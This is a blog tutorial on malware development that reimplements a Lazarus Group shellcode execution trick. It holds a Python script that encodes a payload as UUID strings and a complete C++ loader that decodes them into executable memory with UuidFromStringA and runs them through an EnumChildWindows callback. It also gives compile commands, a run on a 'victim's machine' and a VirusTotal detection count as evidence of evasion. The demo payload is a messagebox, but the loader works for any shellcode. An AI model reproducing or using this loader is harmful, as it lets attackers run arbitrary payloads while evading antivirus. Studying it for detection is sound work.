 ```yaml
---
title:  "Malware development tricks. Run shellcode like a Lazarus Group. C++ example."
date:   2022-07-21 03:00:00 +0300
header:
  teaser: "/assets/images/63/2022-07-22_09-57.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/63/2022-07-22_09-57.png){:class="img-responsive"}    

This article is the result of my own research into another interesting trick: run payload via `UuidFromStringA` and for example `EnumChildWindows`.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Without using standard functions like `memcpy` or `WriteProcessMemory`, this function can be used to decode data as well as write it to memory.     

The shellcode execution technique is comprised of the subsequent steps:

- Allocate memory via `VirtualAlloc`    
- Use `UuidFromStringA` to convert UUID strings their binary format and store in memory    
- Use `EnumChildWindows` (or `EnumDesktopsA` or another candidate) to execute the payload previously loaded into memory      

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](/tutorial/2022/06/27/malware-injection-20.html) tricks, but with some changes specific for Lazarus Group.     

First of all, we need script to convert our desired payload to UUID valid strings. Something like this (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

As usually, I will use my `meow-meow` messagebox payload: `meow.bin`.

Run:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](/assets/images/63/2022-07-22_10-46.png){:class="img-responsive"}    

Since we already have our payload in UUID format, we are able to construct our proof-of-concept code to test the following:     

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Pay attention to the function `UuidFromStringA`. As I wrote earlier, invoking this API with a memory pointer instead of a UUID pointer will result in the binary representation of the given UUID being stored in memory.     

By chaining many API requests and giving properly designed UUIDs, it is possible to load the necessary content (payload) into the chosen memory region.   

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

or another function `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_10-56.png){:class="img-responsive"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_10-58.png){:class="img-responsive"}    

To make sure that our payload was really launched, you can slightly change a piece of code:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Then compile again:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_11-07.png){:class="img-responsive"}    

and run again:   

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_11-09.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/63/2022-07-22_14-59.png){:class="img-responsive"}    

**So, 6 of 68 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

There is a caveat. Lazarus Group uses functions `HeapCreate` and `HeapAlloc` instead:    

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` is a frequently used API call for allocating heap memory.    
This API, as far as I can tell, allows you to allocate specified amounts of memory on the heap, as opposed to the memory blocks obtained using the `VirtualAlloc` API.
However, according to the documentation, `HeapAlloc` can still call `VirtualAlloc` if necessary.    

It also has the advantage that this API is not so suspicious.    

Also Lazarus Group uses function `EnumSystemLocalesA` for execute payload.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/2022-07-21-malware-tricks-22)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
